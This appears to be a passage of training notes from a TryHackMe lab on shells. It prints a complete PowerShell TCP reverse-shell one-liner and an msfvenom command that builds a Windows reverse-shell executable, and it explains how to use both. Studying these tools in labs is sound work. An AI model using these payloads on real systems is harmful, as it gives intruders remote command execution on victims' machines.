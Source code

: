 powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. 
It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell

Msfvenom:


Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. 
It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit;
 however, it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py). It's this latter function that we will be making use of in this room.
 There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.


The standard syntax for msfvenom is as follows:

msfvenom -p <PAYLOAD> <OPTIONS>


For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>





Here we are using a payload and four options:

-f <format>
Specifies the output format. In this case that is an executable (exe)
-o <file>
The output location and filename for the generated payload.
LHOST=<IP>
Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
LPORT=<port>
The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.
Staged vs Stageless


Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.
